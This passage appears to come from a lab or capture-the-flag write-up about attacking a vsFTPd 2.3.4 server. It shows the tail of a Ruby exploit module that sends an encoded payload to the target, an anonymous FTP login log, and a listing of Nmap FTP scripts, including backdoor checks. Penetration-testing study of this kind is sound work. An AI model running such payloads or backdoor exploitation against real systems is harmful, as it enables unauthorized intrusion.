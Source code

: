 ```rb

		s.put("nohup " + payload.encoded + " >/dev/null 2>&1")
		handler(s)
	end

end

```


**Now let's going to run the ftp with this command**
- Name: anonymous
- password: anything

`ftp 10.129.115.59`

We get back to the following result

```command
❯ ftp 10.129.115.59
Connected to 10.129.115.59.
220 (vsFTPd 2.3.4)
Name (10.129.115.59:dt): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> dir
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
226 Directory send OK.
ftp> dir -a
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    2 0        65534        4096 Mar 17  2010 .
drwxr-xr-x    2 0        65534        4096 Mar 17  2010 ..
226 Directory send OK.
ftp> bye
221 Goodbye.
```

So let’s see if there is a Nmap script that already checks for that.

```command
ls /usr/share/nmap/scripts/ftp*
```
Output

```bash
.rw-r--r-- 4.5k root  8 Aug  2021 /usr/share/nmap/scripts/ftp-anon.nse
.rw-r--r-- 3.3k root  8 Aug  2021 /usr/share/nmap/scripts/ftp-bounce.nse
.rw-r--r-- 3.1k root  8 Aug  2021 /usr/share/nmap/scripts/ftp-brute.nse
.rw-r--r-- 3.3k root  8 Aug  2021 /usr/share/nmap/scripts/ftp-libopie.nse
.rw-r--r-- 3.3k root  8 Aug  2021 /usr/share/nmap/scripts/ftp-proftpd-backdoor.nse
.rw-r--r-- 3.8k root  8 Aug  2021 /usr/share/nmap/scripts/ftp-syst.nse
.rw-r--r-- 6.0k root  8 Aug  2021 /usr/share/nmap/scripts/ftp-vsftpd-backdoor.nse
.rw-r--r-- 5.9k root  8 Aug  2021 /usr/share/nmap/scripts/ftp-vuln-cve2010-4221.nse

```
